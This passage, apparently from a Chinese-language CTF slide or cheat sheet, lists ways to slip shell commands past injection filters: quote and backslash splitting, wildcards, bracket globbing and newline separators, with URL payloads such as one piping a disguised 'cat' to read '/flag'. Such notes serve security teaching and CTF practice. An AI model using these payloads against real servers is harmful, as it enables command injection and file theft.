

- （7）引号绕过：ca""t  =>  cat
mo""re  =>  more
in""dex  =>  index
ph""p  =>  php

- （8）通配符绕过：假设flag在/flag中:
/?url=127.0.0.1|ca""t%09/fla?
/?url=127.0.0.1|ca""t%09/fla*

- （9）反斜杠绕过：ca\t  =>  cat
mo\re  =>  more

- （10）[]匹配绕过：
c[a]t  =>  cat
cat fl[a-z]g => cat flag

- (11)连接符绕过：
%0a 回车    %0d 换行